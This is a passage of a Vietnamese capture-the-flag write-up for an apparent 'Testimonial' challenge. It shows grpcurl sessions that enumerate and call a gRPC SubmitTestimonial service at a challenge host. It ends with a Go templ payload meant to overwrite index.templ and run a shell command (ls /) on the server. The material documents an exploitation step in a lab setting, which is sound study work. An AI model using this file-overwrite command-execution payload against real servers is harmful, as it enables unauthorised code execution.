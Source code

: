 ```
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 list
RickyService
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 describe RickyService
RickyService is a service:
service RickyService {
  rpc SubmitTestimonial ( .TestimonialSubmission ) returns ( .GenericReply );
}
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$

```

- Bây giờ ta sẽ gửi request đến nó:

```
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 list
RickyService
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 describe RickyService
RickyService is a service:
service RickyService {
  rpc SubmitTestimonial ( .TestimonialSubmission ) returns ( .GenericReply );
}
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364
RickyService.SubmitTestimonial
Failed to dial target host "94.237.59.63:31364": tls: first record does not look like a TLS handshake
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -plaintext -d '{"customer": "test", "testimonial": "test"}' -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 RickyService.SubmitTestimonial
{
  "message": "Testimonial submitted successfully"
}
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$

```

- Nó đã hiển thị ở trong nội dung:

![image](https://hackmd.io/_uploads/HJhcppoI0.png)

- Vậy ta có thể trigger được rồi -> bây giờ thì ghi đè index.templ:


Nội dung:

```
package home

import (
    "os/exec"
    "strings"
)

func hack() []string {
    output, _ := exec.Command("ls", "/").CombinedOutput()
    lines := strings.Fields(string(output))
    return lines
}

templ Index() {
    @template(hack())
}

```